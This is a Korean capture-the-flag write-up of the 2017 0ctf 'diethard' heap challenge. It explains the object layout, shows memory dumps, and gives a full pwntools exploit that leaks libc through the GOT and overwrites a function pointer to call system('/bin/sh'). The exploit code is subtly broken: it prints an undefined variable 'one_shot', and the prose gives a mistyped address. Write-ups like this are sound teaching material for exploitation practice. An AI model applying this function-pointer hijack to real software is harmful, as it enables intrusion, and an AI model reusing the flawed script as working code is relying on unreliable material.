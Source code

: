# 2017 0ctf - [PWN] diethard

## Key words

- x86-64 | NX
- custom heap

## Solution

메뉴는 할당, 해제, 종료 기능이 제공 됩니다.

키워드에 커스텀 힙이라고 한 이유는 사실 잘 분석이 잘 안된 이유도 있고 페이지를 할당하여 그곳에서 힙과 비슷한 동작을 했기 때문에 커스텀 힙이라고 했습니다. 오브젝트 구조와 할당에 관련해서 자세하게 정리한 블로그를 참고하시면 좋을 것 같습니다.[1]

```c
struct Message_Small {
    unsigned long prev_id;
    size_t length;
    char *content;
    void (*print)(char *, size_t);
    char buf[length + 1];
};
struct Message_Large {
    unsigned long prev_id;
    size_t length;
    char *content;
    void (*print)(char *, size_t);
}
```

할당 시 크기를 2016 보다 작게 하면 small로 할당되고 2016이상이 되면 large로 할당이 됩니다.

보통 이런 문제는 문자열 포인터를 덮어서 원하는 주소를 릭 하고, 함수 포인터를 덮어서 실행 흐름을 변경해야 하는데 분석하는 동안에는 어떻게 오브젝트를 덮을 수 있을지 찾지 못했습니다.

그런데 한참 시도 하던 도중 다음과 같은 덤프를 보았습니다.

```python
fn_addMsg(0x400, "A")
fn_addMsg(0x400, "B")
fn_addMsg(2016, "C"*8)
```

```
*** 0x603340 *** :
00000000  00 80 ed f7  ff 7f 00 00  00 88 ed f7  ff 7f 00 00  │····│····│····│····│
00000010  08 90 ed f7  ff 7f 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000020  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│

*** 0x7ffff7ed8000 *** :
00000000  00 00 00 00  00 00 00 00  00 04 00 00  00 00 00 00  │····│····│····│····│
00000010  20 80 ed f7  ff 7f 00 00  76 09 40 00  00 00 00 00  │ ···│····│v·@·│····│
00000020  41 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │A···│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│

*** 0x7ffff7ed8800 *** :
00000000  43 43 43 43  43 43 43 43  00 00 00 00  00 00 00 00  │CCCC│CCCC│····│····│
00000010  20 88 ed f7  ff 7f 00 00  76 09 40 00  00 00 00 00  │ ···│····│v·@·│····│
00000020  42 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │B···│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│

*** 0x7ffff7ed9008 *** :
00000000  00 00 00 00  00 00 00 00  e0 07 00 00  00 00 00 00  │····│····│····│····│
00000010  00 88 ed f7  ff 7f 00 00  76 09 40 00  00 00 00 00  │····│····│v·@·│····│
00000020  02 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
```

`0x7ffff7e8810` 위치는 2번째 오브젝트 인데 바로 그 직전인 `0x7ffff7ed8800`에 문자열 `CCCCCCCC`가 씌여졌습니다.

이를 이용하여 먼저 문자열 포인터를 `got@__libc_start_main`으로 덮고, `delete message` 메뉴를 이용하여 libc 주소를 구합니다.

`delete` 메뉴에서는 함수 포인터를 호출 하기 때문에 유용하게 사용될 수 있습니다.

```c
(*(void (__fastcall **)(_QWORD, _QWORD))(g_arrMsg_603340[i] + 0x18))(
  *(_QWORD *)(g_arrMsg_603340[i] + 16),
  (unsigned int)*(_QWORD *)(g_arrMsg_603340[i] + 8));
```

오브젝트를 모두 해제 하고, 다시 위와 같이 할당 한뒤, 함수 포인터를 `system`으로 변경하고 문자열 주소를 `/bin/sh`주소로 변경한뒤, 해제를 하면 쉘이 떨어 집니다.

## Exploit code

```python
from pwn import *
context(arch='amd64', os='linux')

def fn_addMsg(n, msg):
	p.sendline("1")
	print p.recv()

	p.sendline(str(n))
	print p.recv()

	p.sendline(msg)
	print p.recv()

def fn_delMsg(idx):
	p.sendline("2")
	print p.recv()

	p.sendline(str(idx))
	print p.recv()

def fn_leak(addr, n, title=""):
	print "*** {} *** : {}".format(hex(addr), title)
	print hexdump(p.leak(addr, n))

target = "./diethard"
p = process(target)
e = ELF(target)

got_libc = e.got["__libc_start_main"]

print p.recv()

addr_arrList = 0x603340
addr_c1 = 0x7ffff7ed8000
addr_c2 = 0x7ffff7ed8800
addr_c3 = 0x7ffff7ed9008

addr_cc1 = 0x7ffff7eda018

fn_addMsg(0x400, "A")
fn_addMsg(0x400, "B")
payload = "C" * 8
payload += p64(0x30)
payload += p64(got_libc)
payload += p64(0x400976)
fn_addMsg(2016, payload)

fn_leak(addr_arrList, 0x80)
fn_leak(addr_c1, 0x80)
fn_leak(addr_c2, 0x80)
fn_leak(addr_c3, 0x80)

p.sendline("2")
data = p.recvuntil("Which Message You Want To Delete?\n")
data = u64(data.split("1. ")[1][:6].ljust(8, "\x00"))

libc_base = data - 0x20740
addr_system = libc_base + 0x45390
binsh = libc_base + 0x18cd17

p.sendline("10")
print p.recv()

fn_delMsg(0)
fn_delMsg(1)
fn_delMsg(2)

fn_addMsg(1032, "A")
fn_addMsg(1032, "B")
payload = "C"*8
payload += p64(0x20)
payload += p64(binsh)
payload += p64(addr_system)
fn_addMsg(2016, payload)

print "__libc_start_main : " + hex(data)
print "one_shot          : " + hex(one_shot)

fn_leak(addr_arrList, 0x80)
fn_leak(addr_c1, 0x80)
fn_leak(addr_c2, 0x80)
fn_leak(addr_c3, 0x80)

p.sendline("2")
p.interactive()
```

[1]: http://charo-it.hatenablog.jp/entry/2017/03/24/114341
